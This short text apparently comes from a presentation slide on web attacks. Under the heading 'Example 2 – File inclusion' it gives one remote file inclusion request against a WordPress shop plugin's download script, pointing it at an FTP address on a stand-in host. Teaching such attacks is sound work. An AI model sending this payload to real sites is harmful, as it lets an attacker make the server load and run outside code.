

# Example 2 – File inclusion
/wordpress/wp-content/plugins/zingiri-web-shop/fws/download.php?abspath=ftp://hello:thisisdog@example.com/